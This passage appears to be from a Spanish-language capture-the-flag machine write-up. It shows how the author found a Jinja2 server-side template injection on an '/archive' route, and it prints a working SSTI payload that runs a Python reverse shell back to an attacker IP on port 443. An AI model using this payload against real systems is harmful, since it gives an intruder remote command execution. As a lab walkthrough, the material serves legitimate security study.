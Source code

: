 ## Explotación

En esta máquina tenemos dos maneras de conesguir acceso, Una llamando `popen` para entablar directamente una reverse shell y la ota inyectando comandos.

### Calling Popen without guessing the offset (1st way)

Vemos que el contenido se refleja en ambas rutas, vamos a probar un `SSTI`:

![Prueba de SSTI](./9.png)

![Prueba de SSTI](./10.png)

Vemos que en la ruta `/archive` si que se refleja esta vulnerabilidad. Buscando en [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---remote-command-execution), encontramos un payload para conseguir una reverse shell:

```bash wrap=false
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.8\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
